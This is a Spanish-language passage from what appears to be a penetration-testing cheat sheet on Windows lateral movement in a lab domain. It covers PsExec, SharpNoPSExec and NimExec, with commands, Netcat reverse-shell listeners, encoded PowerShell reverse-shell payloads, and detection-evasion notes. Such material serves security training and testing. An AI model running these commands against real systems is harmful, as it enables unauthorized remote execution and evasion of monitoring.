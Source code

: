 ####  9.2.1. <a name='psexec'></a>PsExec

[PsExec](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec) está incluido en el conjunto de herramientas Sysinternals de Microsoft, una colección de herramientas diseñadas para ayudar a los administradores en tareas de gestión del sistema. Esta herramienta facilita la ejecución remota de comandos y recupera la salida a través de un pipe con nombre utilizando el protocolo SMB, operando en el puerto TCP 445 y el puerto TCP 139.

```powershell
.\PsExec.exe \\MS02 -i -u HACKLAB.LOCAL\elliot -p Password123 cmd
```
####  9.2.2. <a name='sharpnopsexec'></a>SharpNoPSExec

[SharpNoPSExec](https://github.com/juliourena/SharpNoPSExec) es una herramienta diseñada para facilitar el movimiento lateral aprovechando los servicios existentes en un sistema de destino sin crear otros nuevos ni escribir en el disco, minimizando así el riesgo de detección. La herramienta consulta todos los servicios en la máquina de destino, identificando aquellos con un tipo de inicio configurado como deshabilitado o manual, estado actual de detenido y ejecutándose con privilegios de LocalSystem. Selecciona aleatoriamente uno de estos servicios y modifica temporalmente su ruta binaria para apuntar a una carga útil elegida por el atacante. Tras la ejecución, `SharpNoPSExec` espera aproximadamente 5 segundos antes de restaurar la configuración original del servicio, devolviendo el servicio a su estado anterior. Este enfoque no solo proporciona un shell, sino que también evita la creación de nuevos servicios, lo que podría ser detectado por los sistemas de monitoreo de seguridad.

Nos ponemos en escucha con Netcat

```bash
rlwrap nc -lnvp 4444
```

Ejecutamos `SharpNoPSExec`

```powershell
.\SharpNoPSExec.exe --target=192.168.56.10 --payload="c:\windows\system32\cmd.exe /c powershell -exec bypass -nop -e ...SNIP...AbwBzAGUAKAApAA=="
```

> Creamos un shell en [revshells.com](https://www.revshells.com/)

####  9.2.3. <a name='nimexec'></a>NimExec

[NimExec](https://github.com/frkngksl/NimExec) es una herramienta de ejecución remota de comandos sin archivos que utiliza el Protocolo de Control de Servicios Remotos (MS-SCMR). Manipula la ruta binaria de un servicio con privilegios de LocalSystem para ejecutar comandos en la máquina objetivo y luego restaura la configuración original. Funciona enviando paquetes RPC personalizados a través de SMB y el pipe svcctl, autenticándose mediante un hash NTLM. Al evitar funciones específicas del sistema operativo y aprovechar la compilación cruzada de Nim, NimExec es compatible con múltiples sistemas operativos, ofreciendo una solución versátil y eficiente.

Nos ponemos en escucha con Netcat

```bash
rlwrap nc -lnvp 4444
```

Ejecutamos NimExec

```powershell
.\NimExec -u <user> -d hacklab.local -p <password> -t 192.168.56.10 -c "cmd.exe /c powershell -e JABjAGwAaQBlAG...SNIP...AbwBzAGUAKAApAA==" -v
```
